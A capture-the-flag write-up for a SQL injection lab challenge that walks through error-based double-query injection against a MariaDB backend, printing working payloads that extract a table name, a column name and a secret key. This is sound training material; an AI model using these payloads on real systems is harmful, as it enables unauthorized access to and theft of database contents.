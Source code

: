 # Challenge - 7

This challenge is based on double query injection and we have to use AND in this injection

## Initial Analysis

First we have to find out how the developer has given the query so we try giving id the value. We can break query using '`\`' Which will give an error

```ABAP
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '"\") LIMIT 0,1' at line 1
```

From this we can assume that the query is like:

```sql
select login_name,password from table_name where id = ("input") 
```

We can check this using id=

```sql
0") or 1=1 --+
```

which will give us a login id and password.

This challenge is similar to the previous one so we can use the same payload

### Solving

We can get the table name using: id=

```sql
1") AND (select 1 from(select count(*),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

It will give the error:

```ABAP
Duplicate entry ':atq6embi71:1' for key 'group_key'
```

From which we get table_name = **atq6embi71**

Now we can get the column name using: id=

```sql
1") AND (select 1 from(select count(*),concat(0x3a,(select column_name from information_schema.columns where table_name='atq6embi71' limit 2,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

Which will give the error:

```ABAP
Duplicate entry ':secret_FBCN:1' for key 'group_key'
```

From which we will get column_name = **secret_FBCN**

Now we can get the secret key using : id=

```sql
1") AND (select 1 from(select count(*),concat(0x3a,(select secret_FBCN from atq6embi71),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

Which will give the error:

```ABAP
Duplicate entry ':qEKdaNo67NWnBrXPeEiUJk2w:1' for key 'group_key'
```

where the key is :
**qEKdaNo67NWnBrXPeEiUJk2w**
